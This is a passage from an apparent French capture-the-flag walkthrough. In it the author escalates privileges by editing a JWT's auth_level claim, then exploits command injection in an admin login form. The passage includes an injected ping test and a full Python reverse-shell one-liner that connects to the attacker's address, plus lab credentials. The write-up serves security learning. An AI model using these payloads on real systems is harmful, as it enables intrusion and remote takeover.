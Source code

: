 ```console
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 16 Aug 2018 13:07:48 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 454
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: *
ETag: W/"1c6-/88f6kDSzIXKdTBvko4UfYEKWoY"

{"success":true,"token":"JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwYXlsb2FkIjp7Im5hbWUiOiJSdWRpZSBSYW1pcmV6IiwiZW1haWwiOiJydWRpZXJhbWlyZXpAaGFwcHltYWlsLmNvbSIsInVzZXJuYW1lIjoibWRydWRpZSIsImF1dGhfbGV2ZWwiOiJzdGFuZGFyZF91c2VyIiwicmFuZCI6MjF9LCJpYXQiOjE1MzQ0MjQ4NjgsImV4cCI6MTUzNTAyOTY2OH0.MnCH5VJOwHO_7sweYwwmUajaXRul7pXqlANLOwW0p04","user":{"name":"Rudie Ramirez","username":"mdrudie","email":"rudieramirez@happymail.com","auth_level":"standard_user"}}
```

Oh, intéressant ! Il semblerait qu'il faille modifier le paramètre ```auth_level``` afin d'augmenter nos privilèges. Oui mais par quoi ? ```admin``` ? ```admin_user``` ? ```super_user``` ? La réponse se trouve en réalité dans l'un des fichiers JS, ```main.8b490782e52b9899e2a7.bundle.js```, où à un endroit du code, la valeur ```auth_level``` est comparée à ```master_admin_user```.

Bingo, il suffit alors de modifier le token et les informations associées, à l'aide du site https://jwt.io par exemple. Une fois la valeur ```auth_level``` modifiée, on obtient un token tout à fait différent, que l'on passe à __Burp__ en ayant cliqué au préalable sur _Action_ > _Do intercept_ > _Response to this request_ et bingo, nous sommes admin !

![Affichage de l'image JSON_Web_tokens.png](images/JSON_Web_tokens.png)

Prochaine étape : un _Admin Dashboard_ ayant l'apparence d'un formulaire de login. Les couples d'identifiants trouvés plus tôt, à savoir ```eivijay:12345``` et ```mdrudie:qwerty``` ne fonctionnant pas, il va falloir trouver autre chose. L'indice qui nous met la puce à l'oreille (itchy.. ça gratte !) est _Please authenticate with the Link+ CLI Tool to use Link+_. Une interface en ligne de commande ? Se pourrait-il qu'il s'agisse d'une injection de commandes ? Après quelques tests, la réponse est oui !

![Affichage de l'image admin_dashboard.png](images/admin_dashboard.png)

Le premier test est concluant avec ```username=test``` && ```password=test|ping -c2 192.168.56.102``` car notre machine reçoit bien les trames ICMP _echo request_ et renvoie des _echo reply_.

```console
root@blinils:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
16:16:16.123293 IP 192.168.56.101 > blinils: ICMP echo request, id 3009, seq 1, length 64
16:16:16.123315 IP blinils > 192.168.56.101: ICMP echo reply, id 3009, seq 1, length 64
16:16:17.125145 IP 192.168.56.101 > blinils: ICMP echo request, id 3009, seq 2, length 64
16:16:17.125170 IP blinils > 192.168.56.101: ICMP echo reply, id 3009, seq 2, length 64
```

Un _reverse shell_ avec Python a particulièrement bien fonctionné par la suite. ```nc -nlvp 12345``` sur notre machine, ```test|python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'``` dans le champ ```password``` et nous obtenons notre shell !

